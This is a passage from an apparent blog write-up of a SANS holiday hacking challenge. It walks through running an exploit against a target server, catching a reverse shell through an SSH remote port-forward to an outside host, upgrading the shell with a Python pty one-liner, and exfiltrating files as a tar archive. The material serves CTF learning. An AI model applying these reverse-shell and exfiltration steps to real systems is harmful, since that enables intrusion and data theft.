 ```

With the exploit working locally, it was only a matter of changing IP addresses to run the exploit against the SG-5 target. First, ```xpl.py``` was modified to connect to 54.233.105.81 (SG-5) instead of 192.168.1.204 (Server VM). Then, the shellcode had to be changed to connect back to an publicly reachable IP address. I used the IP address [Vodafone Malta](https://www.vodafone.com.mt/) had kindly assigned to my phone, made [Simple Netcat for Android](https://play.google.com/store/apps/details?id=com.github.dddpaul.netcat&hl=en) listen for incoming connections on the specified port, and received something that looked a bit like a reverse shell:


<figure>
	<a href="/images/2016-01-sans/simple-netcat.png"><img src="/images/2016-01-sans/simple-netcat.png"></a>
	<figcaption>The app icon is supposed to portray a sleeping cat, not a shell.</figcaption>
</figure>



In order to receive a proper interactive shell on the attacking system, a temporary system with the publicly reachable IP address 176.221.43.226 was launched. On the attacking system, SSH remote port forwarding was set up:

```ssh -o GatewayPorts=yes -o ServerAliveInterval=60 -N -R 16498:127.0.0.1:16498 176.221.43.226```

After the shellcode had been adjusted to include the IP of the temporary system, ```xpl.py``` was run once more. This resulted in a reverse shell being received by the temporary system and, via SSH, forwarded to the ncat listener on the attacking system:

<figure>
	<a href="/images/2016-01-sans/ncat1.png"><img src="/images/2016-01-sans/ncat1.png"></a>
	<figcaption></figcaption>
</figure>
As can be seen in the screenshot, 

```/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'```

was run immediately after the connection had been established. This was done to get a truly interactive shell and to avoid the termination of the initial reverse shell connection after a few seconds. 

With shell access to the target server, it was now possible to extract its data. All files found in the ```/gnome/www/files``` directory were saved in a tar archive, sent to the temporary system and, just like the reverse shell itself, forwarded to the attacking system: 

<figure>
	<a href="/images/2016-01-sans/out1.png"><img src="/images/2016-01-sans/out1.png"></a>
	<figcaption>Checksum ...</figcaption>
</figure>

<figure>
	<a href="/images/2016-01-sans/out2.png"><img src="/images/2016-01-sans/out2.png"></a>
	<figcaption>... matches!</figcaption>
</figure>

After the received tar file had been extracted, the contents of fifth and last gnome.conf could be viewed:

```
Gnome Serial Number: 4CKL3R43V4
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES